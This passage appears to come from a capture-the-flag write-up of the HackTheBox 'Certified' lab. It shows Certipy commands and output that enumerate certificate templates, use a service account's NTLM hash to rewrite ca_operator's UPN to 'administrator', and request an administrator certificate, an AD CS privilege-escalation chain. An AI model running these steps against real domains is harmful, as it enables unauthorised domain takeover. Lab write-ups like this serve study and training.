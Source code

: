 ```jsx
[+] Resolved 'DC01.certified.htb' from cache: 10.10.11.41
[+] Connecting to 10.10.11.41:80
[*] Saved BloodHound data to '20250214121338_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[+] Adding Domain Computers to list of current user's SIDs
[*] Saved text output to '20250214121338_Certipy.txt'
[*] Saved JSON output to '20250214121338_Certipy.json'

```

Open the generated `.txt` file.

```jsx                                                                                                                                                 
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ cat 20250214121338_Certipy.txt | grep "Template Name" 

    Template Name                       : CertifiedAuthentication
    Template Name                       : KerberosAuthentication
    Template Name                       : OCSPResponseSigning
    Template Name                       : RASAndIASServer
    Template Name                       : Workstation
    Template Name                       : DirectoryEmailReplication
    Template Name                       : DomainControllerAuthentication
    Template Name                       : KeyRecoveryAgent
    Template Name                       : CAExchange
    Template Name                       : CrossCA
    Template Name                       : ExchangeUserSignature
    Template Name                       : ExchangeUser
    Template Name                       : CEPEncryptio
```

Modifies account attributes in Active Directory to set the `ca_operator` user with an updated User Principal Name (UPN) to `administrator`.


```jsx
┌──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator  -upn administrator

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'

```

Requests a certificate from the Certificate Authority (CA) using the `CertifiedAuthentication` template.

```jsx
──(venv)─(kali㉿kali)-[~/tool_pentest/PKINITtools]
└─$ certipy-ad req -u ca_operator@certified.htb -p "HelloCa" -ca "certified-DC01-CA" -template "CertifiedAuthentication"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
